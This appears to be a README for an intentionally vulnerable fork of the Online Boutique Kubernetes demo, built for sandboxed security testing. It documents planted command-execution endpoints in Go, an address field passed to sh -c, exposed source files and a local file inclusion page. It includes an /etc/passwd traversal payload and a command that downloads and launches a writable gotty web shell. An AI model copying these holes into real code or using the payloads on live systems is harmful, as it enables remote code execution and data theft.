

<br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accomodate some of the usecases mentioned below

1. **Sensitive keys in codebases** -
     commiting sensitive information to version control system.

2. **Custom handle with code execution** -
    a custom httpHandler to replyback *whoami*
3. **Vulnerable address field** - 
    to executes codes in the backend


> **Note :** This tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed enviroment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public ip**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
4. **Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
5. **Give commands in Address field to intall and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [](./images/address.png) 


<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```


## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```


<br />

## Local File Inclusion
**Deployment**
<br />
step-1
```
kubectl apply -f microservices-demo/release/lfi.yaml
```
step-2
```
kubectl get svc | grep lfi
```
step-3
<br />
	1. Copy the External IP
	<br />
	2. Open this file "microservices-demo/src/frontend/templates/header.html
	<br />
	3. Go to line 39 and change the herf IP address using LFI External IP
	<br />
	4. Save the file and build docker image for frontend
	<br />
	<br />
step-4
```
kubectl apply -f microservices-demo/release/kubernetes-manifests.yaml
```
<br />
<br />
**LFI**
<br />
1. Click the New Feature tab on home page
<br />
2. It will open development page
<br />

<br />
3. Now try LFI payloads on the URL
<br />
```
http://35.184.92.18/?file=../../../etc/passwd
```
<br />

<br />
